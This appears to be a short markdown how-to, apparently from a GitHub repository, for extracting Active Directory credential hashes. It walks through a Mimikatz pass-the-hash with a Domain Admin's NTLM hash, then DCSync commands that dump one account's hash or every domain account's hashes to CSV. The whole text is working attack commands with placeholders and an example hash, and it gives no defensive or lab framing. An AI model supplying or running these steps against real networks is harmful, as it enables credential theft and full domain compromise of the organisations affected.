 # Extract Domain Account Hashes with DA NTLM Hash

#### Prerequisites
 - You need the NTLM hash of a Domain Admin (don't need their plain-text password).

#### Launch CMD as Admin
 - Search `cmd` in the start menu, right click and `Run as Admin`

#### Run Mimikatz in context of a DA
Open Mimikatz from the admin cmd prompt.
 - Run the following command:   
```bash
sekurlsa::pth /domain:DOMAIN_NAME /user:DA_USERNAME /ntlm:DA_NTLM_HASH /run:mimikatz.exe
```
 - `DOMAIN_NAME` is the name of the domain e.g. `mydomain.local`.
 - `DA_USERNAME` is the username of the DA e.g. `oldmate`.
 - `DA_NTLM_HASH` is the NTLM hash of the DA account e.g. `58a478135a93ac3bf058a5ea0e8fdb71`.

#### Use the DCSync Command to get Account Hashes
From the newly created Mimikatz window, run the following command:
 	```bash
 	lsadump::dcsync /domain:DOMAIN_NAME /user:DOMAIN_USER
 	```
 - This will return the NTLM hash of the `DOMAIN_USER` account.
 - You can replace `DOMAIN_USER` with any valid domain username and get their NTLM hash.
 - If the machine you're running this on is domain joined then you shouldn't need the `DOMAIN_NAME` parameter.


This will return the NTLM hashes of all user accounts on the domain:
```bash
lsadump::dcsync /all /csv
```
